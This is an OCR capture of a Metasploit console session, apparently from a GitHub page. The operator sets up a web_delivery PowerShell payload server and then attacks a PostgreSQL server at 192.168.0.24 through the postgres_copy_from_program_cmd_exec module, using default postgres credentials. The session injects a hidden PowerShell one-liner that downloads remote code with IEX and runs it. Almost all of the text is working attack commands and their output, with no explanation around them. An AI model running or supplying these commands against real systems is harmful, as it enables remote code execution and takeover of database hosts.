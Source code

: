 
    Exploit target:

       Id  Name
       --  ----
       2   PSH


    msf5 exploit(multi/script/web_delivery) > exploit -j
    [*] Exploit running as background job 0.
    [*] Exploit completed, but no session was created.

    [*] Started reverse TCP handler on 192.168.0.18:4444
    [*] Using URL: http://0.0.0.0:8080/pUDD5sy8vTTD
    [*] Local IP: http://192.168.0.18:8080/pUDD5sy8vTTD
    [*] Server started.
    [*] Run the following command on the target machine:
    msf5 exploit(multi/script/web_delivery) > powershell.exe -nop -w hidden -c $a=new-object net.webclient;$a.proxy=[Net.WebRequest]::GetSystemWebProxy();$a.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $a.downloadstring('http://192.168.0.18:8080/pUDD5sy8vTTD');

    msf5 exploit(multi/script/web_delivery) > use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set DATABASE postgres
    DATABASE => postgres
    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set RHOSTS 192.168.0.24
    RHOSTS => 192.168.0.24
    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > show options

    Module options (exploit/multi/postgres/postgres_copy_from_program_cmd_exec):

       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       COMMAND                     no        Send a custom command instead of a payload, use with powershell web delivery against windows
       DATABASE   postgres         yes       The database to authenticate against
       PASSWORD   postgres         no        The password for the specified username. Leave blank for a random password.
       RHOSTS     192.168.0.24     yes       The target address range or CIDR identifier
       RPORT      5432             yes       The target port (TCP)
       TABLENAME  msftesttable     yes       A table name that doesnt exist(To avoid deletion)
       USERNAME   postgres         yes       The username to authenticate as


    Exploit target:

       Id  Name
       --  ----
       0   Automatic

    
    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set COMMAND powershell.exe -nop -w hidden -c $a=new-object net.webclient;$a.proxy=[Net.WebRequest]::GetSystemWebProxy();$a.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $a.downloadstring(\'http://192.168.0.18:8080/pUDD5sy8vTTD\');
    COMMAND => powershell.exe -nop -w hidden -c $a=new-object net.webclient;$a.proxy=[Net.WebRequest]::GetSystemWebProxy();$a.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $a.downloadstring('http://192.168.0.18:8080/pUDD5sy8vTTD')
    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > exploit
